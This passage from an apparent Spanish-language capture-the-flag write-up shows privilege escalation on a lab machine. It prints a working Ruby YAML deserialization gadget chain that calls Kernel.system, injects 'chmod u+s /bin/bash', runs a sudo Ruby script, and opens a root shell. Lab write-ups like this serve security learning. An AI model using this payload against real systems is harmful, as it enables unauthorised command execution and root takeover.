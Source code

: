 Encontramos que está cargando un archivo llamado `dependencies.yml` el cual no está indicando con ruta absoluta, es decir, lo cargará desde el lugar donde se ejecute el comando.

Investigando un poco, sobre que archivo podriamos crear para obtener una ejecución de comandos, nos encontramos con esta página:

[Blind Remote Code Execution through YAML Deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

Donde se indica que es posible la ejecución remota de comandos (RCE) al cargar esta estructura

```ruby
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: {code_to_inject} ←
          method_id: :resolve
```

En este caso, le vamos a agregar permisos `SUID` a una `bin/bash` para así ejecutar el siguiente comando

```bash
{code_to_inject} = "chmod u+s /bin/bash"
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$ bash -p
bash-5.1# whoami
root
bash-5.1#
```
{: .nolineno }

Y ya somos usuarios `root`

Por último buscamos la flag, que comprueba que comprometimos el sistema

```bash
bash-5.1# cat /root/root.txt 
bash-5.1#
```
{: .nolineno }
